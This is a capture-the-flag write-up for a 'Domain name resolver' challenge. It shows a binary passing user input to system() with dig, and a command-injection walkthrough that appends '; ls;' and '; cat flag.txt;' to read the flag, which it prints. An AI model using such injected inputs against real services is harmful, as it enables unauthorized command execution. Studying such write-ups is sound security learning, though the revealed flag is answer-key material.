

# Domain name resolver

Trying `nc rivit.dev 10004` gives us the prompt `Enter the hostname to be resolved:`, which we can test with `google.com` and yields:

```
142.250.12.101
142.250.12.100
142.250.12.139
142.250.12.102
142.250.12.113
142.250.12.138
```

I have no reason to think that this is incorrect.

We can download the `task` executable, and if we decompile with Ghidra, we get the following output for `main`:



We can roughly outline what happens when the executable runs. The program prints `"Enter the hostname to be resolved: "` before callings `fgets` and placing the output in `local_158`. Given that a buffer size is set, a buffer overflow attack seems unlikely. The program uses `snprintf` to construct a string based off of `local_158` and place the result in `local_118`.

Here is where things get interesting. The string directly references the `dig` Linux command and runs the command using the `system` function, essentially running a Linux command in C to get the domains. Since we are inputting directly to `system`, we can try to inject our own command.

As an experiment, we send `google.com; ls;` as an input to the hostname question, which gives us:

```

Enter the hostname to be resolved: google.com; ls;

; <<>> DiG 9.18.18-0ubuntu0.22.04.2-Ubuntu <<>> google.com
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 48949
;; flags: qr rd ra; QUERY: 1, ANSWER: 6, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 512
;; QUESTION SECTION:
;google.com.                    IN      A

;; ANSWER SECTION:
google.com.             174     IN      A       142.250.12.138
google.com.             174     IN      A       142.250.12.100
google.com.             174     IN      A       142.250.12.101
google.com.             174     IN      A       142.250.12.102
google.com.             174     IN      A       142.250.12.139
google.com.             174     IN      A       142.250.12.113

;; Query time: 8 msec
;; SERVER: 8.8.8.8#53(8.8.8.8) (UDP)
;; WHEN: Wed Jul 17 19:40:38 UTC 2024
;; MSG SIZE  rcvd: 135

flag.txt
task
sh: 1: +short: not found
```

At the bottom, right before the `sh` error, we see that we've gotten two files in the current directory: `flag.txt` and `task`. We (hopefully) just need to read `flag.txt`, so we send:

```
Enter the hostname to be resolved: google.com; cat flag.txt;

; <<>> DiG 9.18.18-0ubuntu0.22.04.2-Ubuntu <<>> google.com
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 12118
;; flags: qr rd ra; QUERY: 1, ANSWER: 6, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 512
;; QUESTION SECTION:
;google.com.                    IN      A

;; ANSWER SECTION:
google.com.             81      IN      A       142.250.12.138
google.com.             81      IN      A       142.250.12.101
google.com.             81      IN      A       142.250.12.102
google.com.             81      IN      A       142.250.12.139
google.com.             81      IN      A       142.250.12.100
google.com.             81      IN      A       142.250.12.113

;; Query time: 8 msec
;; SERVER: 8.8.8.8#53(8.8.8.8) (UDP)
;; WHEN: Wed Jul 17 19:42:11 UTC 2024
;; MSG SIZE  rcvd: 135

CTFlearn{1s_c0mm4nd_1nj3ct10n_4_th1ng?}
sh: 1: +short: not found
```

So, our flag is `CTFlearn{1s_c0mm4nd_1nj3ct10n_4_th1ng?}`.


Further reading:

[https://cs155.stanford.edu/papers/formatstring-1.2.pdf](https://cs155.stanford.edu/papers/formatstring-1.2.pdf)

[https://wiki.sei.cmu.edu/confluence/pages/viewpage.action?pageId=87152177](https://wiki.sei.cmu.edu/confluence/pages/viewpage.action?pageId=87152177)

[https://owasp.org/www-community/attacks/Command_Injection](https://owasp.org/www-community/attacks/Command_Injection)
